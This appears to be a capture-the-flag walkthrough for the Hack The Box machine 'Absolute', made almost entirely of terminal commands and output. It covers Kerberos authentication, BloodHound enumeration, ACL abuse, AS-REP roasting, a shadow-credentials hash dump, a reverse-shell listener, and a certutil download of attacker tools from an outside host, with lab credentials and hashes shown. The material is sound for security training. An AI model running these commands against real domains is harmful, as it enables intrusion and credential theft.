<figure><figcaption></figcaption></figure>


```bash
❯ nxc smb 10.10.11.181 -u 'mlovegod' -p 'AbsoluteLDAP2022!'
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\mlovegod:AbsoluteLDAP2022! STATUS_LOGON_FAILURE 
❯ nxc smb 10.10.11.181 -u 'mlovegod' -p 'AbsoluteLDAP2022!' -k
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\mlovegod:AbsoluteLDAP2022! KDC_ERR_C_PRINCIPAL_UNKNOWN 
```


```bash
❯ ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b "DC=absolute,DC=htb" "(&(objectClass=user)(cn=*love*))"
SASL/GSSAPI authentication started
SASL username: svc_smb@ABSOLUTE.HTB
SASL SSF: 256
SASL data security layer installed.
# extended LDIF
#
# LDAPv3
# base <DC=absolute,DC=htb> with scope subtree
# filter: (&(objectClass=user)(cn=*love*))
# requesting: ALL
#

# m.lovegod, Users, absolute.htb
dn: CN=m.lovegod,CN=Users,DC=absolute,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: m.lovegod
```


```bash
❯ nxc smb 10.10.11.181 -u 'm.lovegod' -p 'AbsoluteLDAP2022!'
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\m.lovegod:AbsoluteLDAP2022! STATUS_ACCOUNT_RESTRICTION 
❯ nxc smb 10.10.11.181 -u 'm.lovegod' -p 'AbsoluteLDAP2022!' -k
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\m.lovegod:AbsoluteLDAP2022! 
```


```bash
❯ bloodhound-python -c All -ns 10.10.11.181 -u 'd.klay' -p 'Darkmoonsky248girl' -k --auth-method kerberos -d absolute.htb --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: absolute.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.absolute.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.absolute.htb
INFO: Found 18 users
INFO: Found 55 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.absolute.htb
INFO: Done in 00M 13S
INFO: Compressing output into 20250122021922_bloodhound.zip

```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ impacket-getTGT absolute.htb/m.lovegod:'AbsoluteLDAP2022!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in m.lovegod.ccache
❯ export KRB5CCNAME=$(pwd)/m.lovegod.ccache
❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Absolute/Absolute/content/m.lovegod.ccache
Default principal: m.lovegod@ABSOLUTE.HTB

Valid starting     Expires            Service principal
22/01/25 05:08:17  22/01/25 09:08:17  krbtgt/ABSOLUTE.HTB@ABSOLUTE.HTB
	renew until 22/01/25 09:08:17, Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 
```


```bash
❯ bloodyAD --host dc.absolute.htb -d absolute.htb -k add genericAll 'NETWORK AUDIT' 'm.lovegod'
[+] m.lovegod has now GenericAll on NETWORK AUDIT

❯ bloodyAD --host dc.absolute.htb -d absolute.htb -k add groupMember 'NETWORK AUDIT' 'm.lovegod'
[+] m.lovegod added to NETWORK AUDIT
```


```bash
❯ ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b "CN=NETWORK AUDIT,CN=Users,DC=absolute,DC=htb" member
SASL/GSSAPI authentication started
SASL username: svc_smb@ABSOLUTE.HTB
SASL SSF: 256
SASL data security layer installed.
# extended LDIF
#
# LDAPv3
# base <CN=NETWORK AUDIT,CN=Users,DC=absolute,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: member 
#

# Network Audit, Users, absolute.htb
dn: CN=Network Audit,CN=Users,DC=absolute,DC=htb
member: CN=svc_audit,CN=Users,DC=absolute,DC=htb
member: CN=m.lovegod,CN=Users,DC=absolute,DC=htb
```


<figure><figcaption></figcaption></figure>


```bash
❯ bloodyAD --host dc.absolute.htb -d absolute.htb -k add uac 'winrm_user' -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to winrm_user's userAccountControl

❯ bloodyAD --host dc.absolute.htb -d absolute.htb -k set object 'winrm_user' servicePrincipalName -v "cifs/gzzcoo"
[+] winrm_user's servicePrincipalName has been updated
```


```bash
❯ impacket-GetNPUsers -no-pass -usersfile users.txt absolute.htb/ 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

$krb5asrep$23$winrm_user@ABSOLUTE.HTB:764eee4e1c1d2ca18a29c04033580763$77a484878419c5a5a71b1d1204197173fbd011ffaf322e86dc534d4c4c2a3c3a25cffbedf6d1d5e4a5e0294a58312e67318aad22394a5d3a652197c1d0fb64caf5ff03ffdb2b009d1bc99afd13c0ade9163e9df684d7cdb3dcb75a03ea8fb3793d55c3c7a4f36d719427642943307f329e1b3d762dce28c0da958aed87982703ff81db0127648813bb26d5e72a397cd1dfaa824d829fea361f537253eba76b84c72d302a48bb84fa5a46d617f6fbe0a2e84050983958b551fdb7df8e457f809a9944638fb3d8bfa299474ca6e5360c3c80e9a114aca21640ff1459cb9b4b4404c9192a6fc6d573405cb40aad
```


```bash
❯ hashcat -a 0 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

...[snip]...

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$winrm_user@ABSOLUTE.HTB:764eee4e1c1d2...b40aad
```


```bash
❯ certipy-ad shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.10.11.181 -target dc.absolute.htb -account winrm_user
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_user'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '998d522e-a045-2dd1-ca6a-d58050fda221'
[*] Adding Key Credential with device ID '998d522e-a045-2dd1-ca6a-d58050fda221' to the Key Credentials for 'winrm_user'
[*] Successfully added Key Credential with device ID '998d522e-a045-2dd1-ca6a-d58050fda221' to the Key Credentials for 'winrm_user'
[*] Authenticating as 'winrm_user' with the certificate
[*] Using principal: winrm_user@absolute.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_user.ccache'
[*] Trying to retrieve NT hash for 'winrm_user'
[*] Restoring the old Key Credentials for 'winrm_user'
[*] Successfully restored the old Key Credentials for 'winrm_user'
[*] NT hash for 'winrm_user': 8738c7413a5da3bc1d083efc0ab06cb2
```


```
❯ evil-winrm -i 10.10.11.181 -u 'winrm_user' -H '8738c7413a5da3bc1d083efc0ab06cb2'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1

```


<figure><figcaption></figcaption></figure>


```
❯ export KRB5CCNAME=$(pwd)/winrm_user.ccache
❯ klist -i
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/AD/Absolute/Absolute/content/winrm_user.ccache
Default principal: winrm_user@ABSOLUTE.HTB

Valid starting     Expires            Service principal
10/02/25 04:52:28  10/02/25 08:52:28  krbtgt/ABSOLUTE.HTB@ABSOLUTE.HTB
	renew until 10/02/25 08:52:28
```


```
❯ nxc smb 10.10.11.181 -k --use-kcache
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\winrm_user from ccache 
```


```bash
❯ evil-winrm -i dc.absolute.htb -r absolute.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_user\Documents> whoami
absolute\winrm_user
```


```
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.181] 51372
Microsoft Windows [Version 10.0.17763.3406]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\ProgramData>whoami
whoami
absolute\winrm_user
```


```
❯ ls -l winPEASx64.exe
.rw-r--r-- kali kali 9.4 MB Mon Feb 10 05:03:21 2025  winPEASx64.exe
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


```
C:\ProgramData>certutil.exe -f -urlcache -split http://10.10.16.7/winPEASx64.exe winPEASx64.exe
certutil.exe -f -urlcache -split http://10.10.16.7/winPEASx64.exe winPEASx64.exe
****  Online  ****
  000000  ...
  962e00


CertUtil: -URLCache command completed successfully.
```


```
❯ ls -l *.exe
.rw-r--r-- kali kali 1.1 MB Mon Feb 10 05:02:29 2025  KrbRelayUp.exe
.rw-r--r-- kali kali 436 KB Mon Feb 10 05:02:44 2025  Rubeus.exe
.rw-r--r-- kali kali  50 KB Mon Feb 10 05:02:37 2025  RunasCs.exe
```


